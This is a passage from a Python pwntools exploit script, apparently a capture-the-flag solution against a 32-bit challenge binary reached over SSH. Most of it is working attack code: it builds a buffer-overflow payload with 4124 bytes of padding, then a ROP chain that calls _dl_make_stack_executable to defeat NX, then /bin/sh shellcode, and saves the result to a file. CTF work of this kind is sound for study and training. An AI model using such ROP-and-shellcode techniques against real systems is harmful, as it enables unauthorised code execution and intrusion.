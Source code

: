```python
            user="chall",
            password="chall",
            port=55552)


if not os.path.exists(vbin):
    if not s:
        connect()
    s.download_file("~/pwn")
    subprocess.check_call(["chmod", "+x", "./pwn"])

velf = ELF("./pwn")

# > afl~exec
# 0x0809e580  88    6     sym._dl_make_stack_executable
#
# can we use this to bypass NX?
# http://radare.today/posts/defeating-baby_rop-with-radare2/
#

# The payload is gonna look like this:
# [ padding ][ ROP chain ][ shellcode ]

padsize = 4124
pad = "A" * padsize

r = ROP(velf)
r.raw(0x0807270a)  # pop edx ; ret
r.raw(0x080edfec)  # obj.__stack_prot
r.raw(0x080beb26)  # pop eax; ret
r.raw(0xffffffff)  # -1
for i in range(8):
    r.raw(0x0807f15f)  # inc eax ; ret

r.raw(0x0809dead)  # mov dword ptr [edx], eax ; ret
r.raw(0x080beb26)  # pop eax; ret
r.raw(0x080edfc4)  # obj.__libc_stack_end
r.call('_dl_make_stack_executable')
r.raw(0x0808d330)  # call esp

# r.call('exit', [42])
log.info("Using rop chain:\n" + r.dump()
         + "\n")  # + hexdump(str(r)))


sc = shellcraft.i386.linux.sh()
log.info("using shellode:\n" + sc)
sc = asm(sc)
log.info("assembled length: {}".format(len(sc)))


payload = str(r) + sc + "\x90" * 4
log.info(hexdump(payload))
payload = pad + payload

if "\x00" in payload:
    log.warn("NULL byte in payload!")

log.info("saving payload")
with open("./payload", "w") as f:
    f.write(payload)

# :)
```